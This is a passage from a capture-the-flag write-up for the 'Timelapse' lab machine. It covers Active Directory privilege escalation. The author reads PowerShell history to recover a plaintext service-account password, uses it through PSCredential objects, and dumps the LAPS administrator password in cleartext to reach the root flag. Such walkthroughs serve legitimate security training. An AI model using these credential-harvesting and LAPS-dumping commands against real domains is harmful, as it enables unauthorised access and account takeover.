Selecting owned user 'legacyy' and navigating to Node Info, we can query for 'Reachable High Value Targets.' We see that we can really only reach the default high value target AD Group of DOMAIN_CONTROLLERS@TIMELAPSE.HTB by our 'CanPSRemote' privilege, ie our current Win-RM session. 



Heading to the analysis tab and querying for kerberostable accounts, we find nothing of interest.



We can search for user svc_deploy, right click and query for 'Shortest Paths to Here'



There is really no path for AD traversal by user privileges from our owned user (bottom left) to svc_deploy. Upon selecting svc_deploy and querying for 'Shortests Paths to Here from Owned', the query returns no information. It would appear that there is no apparent path to svc_deploy by traversing AD.



### Manual Enumeration

With winPEAS and Bloodhound showing nothing interesting, we can turn to manual enumeration for methods of local privilege escalation, following the guide below.

https://0xer3bus.gitbook.io/notes/windows/local-privilege-escalation

From our session as legacyy, we can query for our available AD privileges.

```
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

None of the privileges align with our guide, and upon searching around retired machine writeups for these privileges, I don't find them being used in any way that would be useful to us here.

Searches for stored autologin credentials reveal nothing of interest for pivoting to svc_deploy.

Examining powershell command history for user 'legacyy' does reveal useful saved command history.

```
cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

In the command history below, we can see user 'legacyy' forming a PSCredential object for use in invoking commands as svc_deploy. This will be our way in. 

```
*Evil-WinRM* PS C:\> cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

### Invoke commands as svc_deploy

Upon following the steps to create the PSCredential object and invoke command 'whoami' as svc_deploy, we see username 
'timelapse\svc_deploy' successfully returns.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
Enter PEM pass phrase:
timelapse\svc_deploy
```

## Priv: svc_deploy -> administrator

### Dump LAPS Password

Returning to the LAPS pentesting guide we used earlier, we can copy a powershell command that will allow us to dump the LAPS password in cleartext, and place this inside the script block. We successfully get the LAPS admin password, 'O2]Br]z.tWI%(0G79c5Z8g2$'

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'}                      
Enter PEM pass phrase:                                                                                                                 

Name           : DC01
ms-Mcs-AdmPwd  : O2]Br]z.tWI%(0G79c5Z8g2$
PSComputerName : localhost
RunspaceId     : 3b3e403e-5af9-4a61-b410-943a0808a643

```

### Invoke commands as administrator

We can use this to form a new PSCredential object and invoke a command as 'administrator'.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
*Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'O2]Br]z.tWI%(0G79c5Z8g2$' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('administrator', $p)
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}

timelapse\administrator
```

Upon searching for the root flag in the usual place, root.txt in the Desktop folder of the administrator, we find no such file. I'm surprised to see that someone has moved the root flag on us. Cheeky.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {type C:\users\administrator\desktop\root.txt}
Enter PEM pass phrase:
Cannot find path 'C:\users\administrator\desktop\root.txt' because it does not exist.
```

Upon checking the Desktop folders of other users, we find the root flag on the desktop of user 'TRX'

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'O2]Br]z.tWI%(0G79c5Z8g2$' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('administrator', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {type C:\Users\TRX\Desktop\root.txt}
```